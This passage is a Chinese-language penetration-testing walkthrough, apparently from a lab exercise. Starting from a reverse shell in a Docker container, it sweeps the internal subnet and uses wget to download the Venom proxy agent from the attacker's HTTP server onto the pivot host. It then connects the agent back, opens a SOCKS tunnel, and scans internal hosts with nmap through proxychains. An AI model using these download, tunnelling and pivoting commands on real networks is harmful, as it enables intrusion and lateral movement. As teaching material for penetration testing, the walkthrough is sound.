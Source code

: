 可以成功获取反弹shell
```Shell
whoami # root用户
ls # 发现存在Dockerfile
```
仅仅是拿到了Docker容器的Shell
```Shell
ls /.dockerenv
cat /proc/1/cgroup
ip address
```
发现是一个内网IP：`inet 172.17.0.3/16`
通过单行Shell脚本探测内网中存活的IP（也可以先传些工具上去再探测）
```Shell
# 真实环境下应当扫65536个IP 这里只尝试10个
for i in $(seq 1 10); do ping -c 1 172.17.0.$i; done
```
发现三个IP存活，除本机 `172.17.0.3` 外，还有 `172.17.0.1` 和 `172.17.0.2` 。
接下来要对这两个IP进行端口扫描，直接使用 `kali` 中的工具很不方便。
这样的话需要用到 `Venom` 作为代理工具，首先要将 `Venom` 的agent端二进制文件传输到跳板机上。先检查跳板机上的工具。
```Shell
which scp # not found
which curl # not found
which wget # found
which nc # found
```
发现只有 `wget` ，可以在本地启动一个http服务，再在跳板机上通过 `wget` 把文件下载下来。使用nc传输也可以。
```Shell
# 快速建立HTTP服务 如果使用低端口可能要加sudo
# 托管当前路径中的任何文件和文件夹
python -m SimpleHTTPServer 7331  # Python 2.x
python3 -m http.server 7331      # Python 3.x
php -S 0.0.0.0:8000              # PHP # 不知道是托管哪个目录 不太好用
ruby -run -e httpd . -p 9000     # Ruby
busybox httpd -f -p 10000        # busybox # 被称为嵌入式linux的瑞士军刀 # 也不太好用
```
下载对应系统版本的agent二进制文件
```Shell
wget http://192.168.1.26:7331/agent_linux_x64
# 赋予可执行权限
chmod +x agent_linux_x64
```
本机启动 `Venom` 的admin端
```Shell
./admin_linux_x64 -lport 9999
```
跳板机启动agent端连接
```Shell
./agent_linux_x64 -rhost 192.168.1.26 -rport 9999
```
连接成功后 Successfully connects to a new node 启动代理
```
(admin node) >>> goto 1
(node 1) >>> socks 7777
```
使用代理，先配置proxychains，`sudo vim /etc/proxychains4.conf`
```
# socks4        127.0.0.1 9050
socks5  127.0.0.1 7777
```
使用代理扫描
```Shell
# -Pn 或 -P0 禁ping
proxychains nmap -P0 -sT 172.17.0.1
proxychains nmap -P0 -p22,5000 -sV 172.17.0.1
# 22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 (Ubuntu Linux; protocol 2.0)
# 5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 2.7.15)
proxychains nmap -P0 -sT 172.17.0.2
```